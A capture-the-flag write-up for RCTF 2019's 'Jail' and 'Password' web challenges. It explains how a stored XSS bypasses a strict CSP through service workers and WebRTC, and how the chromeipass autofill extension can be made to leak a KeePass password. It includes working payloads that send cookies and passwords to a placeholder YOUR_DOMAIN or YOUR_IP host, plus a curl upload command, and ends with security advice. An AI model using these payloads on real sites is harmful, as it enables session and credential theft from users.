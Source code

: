 # Jail & Password

## Jail

The star knows...

### Writeup

We should find all vulnerabilities first.

- Vul 1: ``?action=profile``, allowed us uploading arbitrary extensions to the server, so sad we can't upload ``.php``. But it may be useful.
- Vul 2:  ``?action=post`` , no filter for user input so there have a Stored XSS.

We know this is a XSS challenge so we should focus on ``?action=post``. This page has some extra limitations. Just like a prison which hard to escape from, flag is imprisoned and you can't take it out.

Limitation 1:  ``Content-Security-Policy: sandbox allow-scripts allow-same-origin; base-uri 'none';default-src 'self';script-src 'unsafe-inline' 'self';connect-src 'none';object-src 'none';frame-src 'none';font-src data: 'self';style-src 'unsafe-inline' 'self';``.

This CSP limited the browser to get external resources, includes ``<img src>``, ``background: url()``, ``<script src>``,``<embed src>``, ``<iframe src>``, ``new XMLHttpRequest()``. And with the help of ``sandbox``,  ``<form action>`` requires ``allow-forms``, ``window.open`` and ``<a target="_blank">`` requires ``allow-popups``. So the only(?) way to get flag is redirection.

Limitation 2:

```html
<script>
window.addEventListener("beforeunload", function (event) {
  event.returnValue = "Are you sure want to exit?"
  return "Are you sure want to exit?"
})
Object.freeze(document.location) </script>
```

This script banned page redirection includes ``location.href`` and ``<meta>`` in real-world browsers. Thanks to standards, we can see how indestructible our defense is.

But we may forget something.

#### Way 1

The Service Worker is run under ``Execution Context`` so it may not follow the CSP from its registrant. [Service Workers 1, W3C Working Draft, 2 November 2017](https://www.w3.org/TR/service-workers-1/#content-security-policy) said:

> If serviceWorker’s script resource was delivered with a Content-Security-Policy HTTP header containing the value policy, the user agent must enforce policy for serviceWorker."

Therefore, we can reasonably know SW only follows CSP delivered with itself.

[Content Security Policy Level 3, W3C Working Draft, 15 October 2018](<https://www.w3.org/TR/CSP3/#fetch-integration>) said:

> If we get a response from a Service Worker (via [HTTP fetch](https://fetch.spec.whatwg.org/#concept-http-fetch), we’ll process its [CSP list](https://fetch.spec.whatwg.org/#concept-response-csp-list) before handing the response back to our caller.

That's mean "request" is not restricted. In my test,  ``fetch('/')`` will ignore ``connect-src: 'none'`` and the event ``fetch`` listened by SW will be triggered if a SW is registered. By the way, it's useless in this challenge so we just ignore it temporarily.

To register a Service Worker, we should check these conditions:

- Can we run JavaScript and register a SW? Yes, no limitation here.
- Is the page in "[Secure Context](<https://w3c.github.io/ServiceWorker/#secure-context>)"? Yes, https here.
- Can we upload a file which can return JavaScript MIME type? Yes, see vul 1, just upload a ``.js`` file.
- Can SW works? No, the scope should be ``scopeURL to the result of options.scope with the context object’s relevant settings object’s API base URL``. But don't care, our target is to send messages out, not let SW works.

So the final solution is to run JavaScript in an independent context by SW. First, let us create a ``.js``:

```javascript
fetch('https://YOUR_DOMAIN/?' + encodeURIComponent(globalThis.location.href), {mode: 'no-cors'})
```

Then, upload it and get URL:

```bash
curl 'https://jail.2019.rctf.rois.io/?action=profile' -X POST -H 'Cookie:PHPSESSID=iupr391ksbclg3l96s0sliv917' -F"avatar=@/Users/sx/website/sw-test/sw.js" -F"submit=submit"
```

Create a new message:

```html
<script> navigator.serviceWorker.register('/uploads/21ca75a36c5cdacfd4653fadb2553242.js?' + encodeURIComponent(document.cookie), {scope: '/uploads/'}); </script>
```

#### Way 2

WebRTC will ignore ``connect-src``, see: https://github.com/w3c/webrtc-pc/issues/1727. It seems they have no plan to fix this.

```html
<script></script>var pc = new RTCPeerConnection({"iceServers":[{"urls":["turn:YOUR_IP:YOUR_PORT?transport=udp"],"username":document.cookie,"credential":"."}]});
pc.createOffer().then((sdp)=>pc.setLocalDescription(sdp);</script>
```

#### Way 3

DNS prefetch: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-DNS-Prefetch-Control

### Flag

``RCTF{welc0me_t0_the_chaos_w0r1d}``

## Password

Successfully Jailbreak? Try to steal the password from the manager!

### Writeup

After ``jail``, you may know bot is not running under headless mode. That's because headless mode doesn't support extensions. We can add two ``<input>`` to the page, and read ``document.body.innerHTML``:

```html
<input type="username" name="username"><input type="password" name="password"> <script> setTimeout(() => {navigator.serviceWorker.register('/uploads/511b3c8839bd36230c4aa3c5ff5545ef.js?' + encodeURIComponent(document.body.innerHTML), {scope:'/uploads/'});}, 1000) </script>
```

Then we can get:

```html
<input type="username" name="username" data-cip-id="cIPJQ342845639" class="cip-ui-autocomplete-input" autocomplete="off"><span role="status" aria-live="polite" class="cip-ui-helper-hidden-accessible"></span><input type="password" name="password" data-cip-id="cIPJQ342845640"> <script> setTimeout(() => {navigator_serviceWorker_register('/uploads/511b3c8839bd36230c4aa3c5ff5545ef_js?' + encodeURIComponent(document_body_innerHTML), {scope:'/uploads/'});}, 1000) </script><div class="cip-genpw-icon cip-icon-key-small" style="z-index: 2; top: 10px; left: 341px;"></div><div class="cip-ui-dialog cip-ui-widget cip-ui-widget-content cip-ui-corner-all cip-ui-front cip-ui-draggable" tabindex="-1" role="dialog" aria-describedby="cip-genpw-dialog" aria-labelledby="cip-ui-id-1" style="display: none;"><div class="cip-ui-dialog-titlebar cip-ui-widget-header cip-ui-corner-all cip-ui-helper-clearfix"><span id="cip-ui-id-1" class="cip-ui-dialog-title">Password Generator</span><button class="cip-ui-button cip-ui-widget cip-ui-state-default cip-ui-corner-all cip-ui-button-icon-only cip-ui-dialog-titlebar-close" role="button" aria-disabled="false" title="×"><span class="cip-ui-button-icon-primary cip-ui-icon cip-ui-icon-closethick"></span><span class="cip-ui-button-text">×</span></button></div><div id="cip-genpw-dialog" class="cip-ui-dialog-content cip-ui-widget-content" style=""><div class="cip-genpw-clearfix"><button id="cip-genpw-btn-generate" class="b2c-btn b2c-btn-primary b2c-btn-small" style="float: left;">Generate</button><button id="cip-genpw-btn-clipboard" class="b2c-btn b2c-btn-small" style="float: right;">Copy to clipboard</button></div><div class="b2c-input-append cip-genpw-password-frame"><input id="cip-genpw-textfield-password" type="text" class="cip-genpw-textfield"><span class="b2c-add-on" id="cip-genpw-quality">123 Bits</span></div><label class="cip-genpw-label"><input id="cip-genpw-checkbox-next-field" type="checkbox" class="cip-genpw-checkbox"> also fill in the next password-field</label><button id="cip-genpw-btn-fillin" class="b2c-btn b2c-btn-small">Fill in &amp; copy to clipboard</button></div></div><ul class="cip-ui-autocomplete cip-ui-front cip-ui-menu cip-ui-widget cip-ui-widget-content cip-ui-corner-all" id="cip-ui-id-2" tabindex="0" style="display: none;"></ul>
```

You can Google "cip" and you will know its "chromeipass", it's a extension for Chrome to send and receive credentials from KeePass.

Just try to click the ``username`` input, as a normal user will do.

```html
<input type="username" name="username"><input type="password" name="password"> <script>setTimeout(()=>{ document.querySelector('[type=username]').click() },500); setTimeout(() => {navigator.serviceWorker.register('/uploads/511b3c8839bd36230c4aa3c5ff5545ef.js?' + encodeURIComponent(document.body.innerHTML), {scope:'/uploads/'});}, 1000) </script>
```

Then you will get a menu:

```html
<ul class="cip-ui-autocomplete cip-ui-front cip-ui-menu cip-ui-widget cip-ui-widget-content cip-ui-corner-all" id="cip-ui-id-2" tabindex="0" style="display: block; width: 233px; top: 29px; left: 8px; z-index: 2147483636;"><li class="cip-ui-menu-item" role="presentation"><a id="cip-ui-id-3" class="cip-ui-corner-all" tabindex="-1">fake_flag (http://jail_2019_rctf_rois_io/)</a></li><li class="cip-ui-menu-item" role="presentation"><a id="cip-ui-id-4" class="cip-ui-corner-all" tabindex="-1">flag (http://jail_2019_rctf_rois_io/)</a></li></ul>
```

Click on "flag", and read the password from ``password.value``, done.

### Solution

Create a ``.js`` as same as ``Jail``, and report this message.

```html
<input type="username" name="username">
<input type="password" name="password" id="password">
<script>
  setTimeout(()=>{document.querySelector('[type=username]').click()},500);
  setTimeout(()=>{document.getElementById('cip-ui-id-4').click()}, 1000);
  setTimeout(() => {navigator.serviceWorker.register('/uploads/511b3c8839bd36230c4aa3c5ff5545ef.js?' + encodeURIComponent(document.getElementById('password').value), {scope:'/uploads/'});}, 1500)
</script>
```

Flag: ``rctf{kpHttp_m4y_leak_ur_pwd}``

### Keep Safe

So sad, ``chromeipass`` it's not secure. Unconcerned one can steal your passwords with a simple XSS because DOMs injected by ``chromeipass`` are accessible for the page. ``1Password`` have no this problem because its password selection window is independent.

We know, ``chromeipass`` have multiple backends. ``KeePass C#`` with ``pfn/KeePassHttp`` is the most secure backend. It has "KeePassHttp Settings" for each item and allows users to add a website into whitelist or blacklist. When the website requests an item, it will show a notification default. To keep safe, just remove stored permissions from all entries and do not disable notification, and you will be prompted when autofill.

``KeeWeb`` + ``KeeWebHttp`` is insecure. It have no prompt or notifications.

``MacPass`` + ``MacPassHttp`` is very insecure. If you sure want to use it, at least upgrade ``MacPassHttp`` to the latest version. The inspiration for this challenge came from [a vulnerability I found and fixed in MacPassHttp](https://github.com/MacPass/MacPassHTTP/issues/54).

